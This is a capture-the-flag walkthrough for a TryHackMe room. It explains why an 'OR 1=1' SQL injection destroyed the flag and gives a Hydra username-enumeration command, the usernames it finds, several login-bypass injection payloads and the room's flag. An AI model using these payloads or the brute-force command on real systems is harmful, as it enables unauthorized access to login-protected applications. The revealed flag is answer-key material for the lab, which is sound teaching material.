



# Lesson Learned?


## Summary

[Lesson Learned](https://tryhackme.com/room/lessonlearned "Lesson Learned CTF on TryHackMe") is a beginner-friendly CTF hosted on [TryHackMe](https://tryhackme.com/ "TryHackMe Website") and created by [Tib3rius](https://tryhackme.com/p/Tib3rius "TryHackMe user profile for Tib3rius").

This CTF requires basic knowledge of:

* Safer alternatives to common ```SQL Injections```.

* Bruteforcing usernames with tools like ```Hydra```.

---

## Contents

* [Getting Started](#getting-started "Jump To Section")

* [Getting Kicked Out](#getting-kicked-out "Jump To Section")

* [The Right Way](#the-right-way "Jump To Section")

---

## Getting Started

For this room we're given the following description:

> This is a relatively easy machine that tries to teach you a lesson, but perhaps you've already learned the lesson? Let's find out.
>
> Treat this box as if it were a real target and not a CTF.
>
> Get past the login screen and you will find the flag. There are no rabbit holes, no hidden files, just a login page and a flag. Good luck!

The above description let's us know that this CTF will be a straight-forward login page bypass. There will be no need for a network scan or directory enumeration, so we can skip the usual tools like NMAP and GoBuster and move straight to website.

[Back To Top](#lesson-learned "Jump To Top")

---

## Getting Kicked Out

Once we navigate to the URL for the website we'll see a simple login page. Reviewing the source code reveals nothing, just bare-bones HTML and CSS.

Our first instinct may be to perform a ```SQL Injection``` like ```admin' OR 1 = 1-- -```, but when thinking of performing a SQL Injection it is important to consider the context into which the injection is being placed. Is it a ```SELECT``` statement or a ```UPDATE``` statement? Into which part of the SQL query are we injecting into? Here we can guess that we're injecting into a ```SELECT``` query based on the fact that the login form will query the SQL database for our username. However, we don't know _exactly_ what the program does with our input, we can only guess. Say, for instance, that we wanted to inject ```admin' OR 1 = 1-- -``` into a ```SELECT``` statement. This would return every row. However, if the same injection is inserted into a ```DELETE``` statement, every row would be deleted. This is what makes SQL injections so dangerous.

We can test out the wrong way to inject into the database with the following injection:

* Username: ```test' OR 1 = 1-- -``` (MySQL comments need to start with a space so the dash following the space is used to ensure that the space before is not stripped, you can use anything though. For instance, ```test' OR 1 = 1-- x```, is also a valid injection.)

* Password: ```anything```

After our SQL injection, we'll get the following message:



The flag has been destroyed due to our injection making it's way to a ```DELETE``` statement. We'll need to restart the room and try a "less destructive" method.

[Back To Top](#lesson-learned "Jump To Top")

---

## The Right Way



Instead of trying to return every row with ```test' OR 1 = 1-- -``` and hoping we're logged into the account of the user in the first row we can use a SQL injection like ```test'; -- -``` or ```test' AND 1 = 1 -- -```. The problem with this safer alternative is that we need a valid username. So our next step is to enumerate possible usernames using a tool like [Hydra](https://www.kali.org/tools/hydra/ "Kali Linux Documentation For Hydra").

Before we can craft the Hydra command we'll need the following:

* [Username Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt "Daniel Miessler's Usernames Wordlist On GitHub")

* Name of the page the form is submitted to.

* Form method.

* Input names for username/password.

* Error message that appears when a username AND password are incorrect.

All of these, with the exception of the wordlist and error message, can be found by viewing the forms source code.

```html
<div id="login">
    <h1>Login</h1>
    <form action="/" method="POST">
        <label for="username">Username</label>
        <input id="username" type="text" name="username">
        <label for="password">Password</label>
        <input id="password" type="password" name="password">
        <input type="submit" value="Login">
    </form>
</div>
```

* Form Submission Page - ```/``` (Or ```index.php```).

* Method - ```POST```.

* Input Names - Password: ```password```, Username: ```username```.

Now we can grab the error message by attempting to log in with dummy credentials such as ```test:test```.

*  Error Message - ```Invalid username and password.```

Now that we have everything we can craft the Hydra command.

```hydra -L /path/to/wordlist -p INSERT_ANY_PASSWORD_HERE INSERT_IP_ADDRESS_HERE -s 80 http-post-form "/index.php:username=^USER^&password=^PASS^":"Invalid username and password."```

After Hydra has finished running we should get the following valid usernames:

* ```arnold```

* ```karen```

* ```kelly```

* ```marcus```

* ```martin```

* ```naomi```

* ```patrick```

* ```sophia```

* ```stuart```

* ```veronica```

Now that we have valid usernames we can bypass the login with either of the following payloads:

* ```veronica' AND 1 = 1-- -```

* ```naomi';-- -```

And for some reason this also logs us in (with *ANY* username):

* ```test' UNION SELECT null-- -```

After bypassing the login page we'll be greeted with the following flag and message:

```THM{aab02c6b76bb752456a54c80c2d6fb1e}```



[Back To Top](#lesson-learned "Jump To Top")
